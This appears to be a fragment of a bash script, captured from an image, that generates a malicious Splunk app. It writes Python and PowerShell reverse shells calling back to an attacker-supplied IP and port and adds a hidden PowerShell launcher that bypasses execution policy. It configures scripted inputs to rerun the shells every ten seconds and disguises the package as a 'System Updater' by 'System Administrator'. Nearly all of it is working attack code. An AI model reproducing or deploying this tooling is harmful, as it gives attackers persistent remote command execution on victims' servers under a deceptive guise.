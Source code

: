 ```bash
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
EOF
    
    # Create PowerShell reverse shell
    cat > $app_name/bin/reverse_shell.ps1 << 'EOF'
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",ATTACKER_PORT);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
EOF
    
    # Replace placeholders in PowerShell script
    sed -i "s/ATTACKER_IP/$attacker_ip/g" $app_name/bin/reverse_shell.ps1
    sed -i "s/ATTACKER_PORT/$attacker_port/g" $app_name/bin/reverse_shell.ps1
    
    # Create batch launcher
    cat > $app_name/bin/run.bat << 'EOF'
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
EOF
    
    # Create inputs.conf
    cat > $app_name/default/inputs.conf << 'EOF'
[script://./bin/reverse_shell.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
EOF
    
    # Create app.conf
    cat > $app_name/default/app.conf << 'EOF'
[install]
state = enabled
is_configured = true

[ui]
is_visible = true
label = System Updater

[launcher]
author = System Administrator
description = System maintenance and updates
version = 1.0.0
EOF
    
    # Create metadata
```